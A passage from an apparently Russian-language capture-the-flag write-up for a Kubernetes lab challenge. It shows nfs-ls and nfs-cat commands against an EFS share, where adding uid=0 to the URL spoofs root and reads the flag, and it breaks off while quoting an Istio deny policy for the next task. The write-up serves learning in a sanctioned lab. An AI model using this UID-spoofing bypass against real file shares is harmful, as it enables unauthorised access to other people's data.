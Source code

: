 Просмотрев первую подсказку, мы узнаем про некие инструменты nfs-ls, nfs-cat и находим [документацию](https://github.com/sahlberg/libnfs).
![Alt text](img/image-7.png)

Пробуем составить команду, с помощью которой мы сможем взаимодействовать с хранилищем.

```
player@wiz-k8s-lan-party:~$ nfs-ls "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//?version=4"

----------  1     1     1           73 flag.txt
```

Отлично, мы смогли вывести его содержимое. Однако, если мы попытаемся прочитать флаг, то получим ошибку.

```
player@wiz-k8s-lan-party:~$ nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//?version=4"

Failed to open file /: open call failed with "NFS4: (path /) failed with NFS4ERR_INVAL(-22)"
Failed to open nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//?version=4
```

Нагуглив [доку от aws](https://docs.aws.amazon.com/en_en/efs/latest/ug/accessing-fs-nfs-permissions.html), мы можем понять, что нам не хватает UID/GID

> *After creating a file system, by default only the root user (UID 0) has read, write, and execute permissions.*

Следуя все тому же ману из подсказки, составляем новую нагрузку и получаем флаг

`nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0"`


## The Beauty and The Ist
**Описание:**
*Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.*

**Policy:**
```
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
```